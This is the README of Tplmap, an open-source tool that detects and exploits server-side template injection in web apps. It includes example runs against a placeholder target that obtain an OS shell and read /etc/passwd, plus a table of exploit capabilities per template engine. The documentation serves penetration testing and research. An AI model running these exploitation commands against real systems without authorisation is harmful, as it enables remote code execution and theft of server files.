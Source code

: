 Tplmap
======

Tplmap (short for _Template Mapper_) is a tool that automate the process of detecting and exploiting Server-Side Template Injection vulnerabilities (SSTI).

This can be used by developers, penetration testers, and security researchers to detect and exploit vulnerabilities related to the template injection attacks.

The technique can be used to compromise web servers' internals and often obtain Remote Code Execution (RCE), turning every vulnerable application into a potential pivot point.

The modular approach allows any contributor to extend the support to other templating engines or introduce new exploitation techniques. The majority of the techniques currently implemented came from the amazing research done by [James Kett, PortSwigger][1].

> The application is currently under heavy development and misses some functionalities.

Example
--------

```
$ ./tplmap.py -u 'http://www.target.com/app?id=*'
[+] Found placeholder in GET parameter 'id'
[+] Testing reflection on Mako engine with tag ${} and variations
[+] Testing reflection on Jinja2 engine with tag {{}} and variations
[+] Testing reflection on Twig engine with tag {{}} and variations
[+] Testing reflection on Smarty engine with tag {} and variations
[+] Testing reflection on Freemarker engine with tag ${} and variations
[+] Testing reflection on Velocity engine with tag #set($p=)\n$p\n
[+] Detected unreliable reflection with tag #set($p=)\n$p\n, continuing
[+] Confirmed reflection with tag '\n= \n' by Jade plugin
[+] Tplmap identified the following injection point:

  Engine: Jade
  Template: \n= \n
  Context: text
  OS: linux
  Capabilities:
    Code evaluation: yes, javascript code
    OS command execution: yes
    File write: yes
    File read: yes

[+] Rerun tplmap providing one of the following options:
    --os-cmd or --os-shell to access the underlying operating system
    --upload LOCAL REMOTE to upload files to the server
    --download REMOTE LOCAL to download remote files

$ ./tplmap.py -u 'http://www.target.com/app?id=*' --os-shell
[+] Run commands on the operating system.
linux $ whoami
www-data
linux $ ls -al /etc/passwd
-rw-r--r--  1 root  wheel  5925 16 Sep  2015 /etc/passwd
linux $

```

Supported template engines
--------------------------

| Template engine    | Detection | command execution | Code evaluation | File read | File write |
|--------------------|-----------|-------------------|-----------------|-----------|------------|
| Mako               |  yes      | yes               | python          | yes       | yes        |
| Jinja2             |  yes      | yes               | python          | yes       | yes        |
| Jade               |  yes      | yes               | javascript      | yes       | yes        |
| Smarty (unsecured) |  yes      | yes               | PHP             | yes       | yes        |
| Freemarker         |  yes      | yes               | no              | yes       | yes        |
| Velocity           |  yes      | no                | no              | no        | no         |
| Twig               |  yes      | no                | no              | no        | no         |
| Smarty (secured)   |  yes      | no                | no              | no        | no         |


[1]: http://blog.portswigger.net/2015/08/server-side-template-injection.html
